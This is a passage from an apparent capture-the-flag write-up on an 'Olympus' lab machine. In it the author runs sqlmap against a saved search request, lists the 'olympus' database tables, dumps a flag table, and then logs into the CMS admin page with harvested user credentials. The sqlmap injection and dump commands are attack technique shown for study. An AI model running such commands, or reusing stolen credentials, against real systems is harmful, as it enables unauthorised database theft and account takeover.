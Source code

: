 On the CMS page I capture a search request using the search box and save it to a file and then use that to further enumerate with sqlmap. I should have done this earlier it was so much faster than the previous way I found the users. It looks like there are additional tables inside the olympus database:

`sqlmap -r test.req --tables olympus --batch`

```
Database: olympus
[6 tables]
+------------------------------------------------------+
| categories                                           |
| chats                                                |
| comments                                             |
| flag                                                 |
| posts                                                |
| users                                                |
+------------------------------------------------------+
```

The flag table certainly looks interesting!

`sqlmap -r test.req -D olympus -T flag --batch --dump`

```
Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{<REDACTED>} |
+---------------------------+
```

That answers our what is flag 1 objective.

<br>

## More Website Digging

Back on the website I try to login with the **prometheus** user credentails we have and it works, and brings us to the CMS admin page:

![](images/olympus6.png)
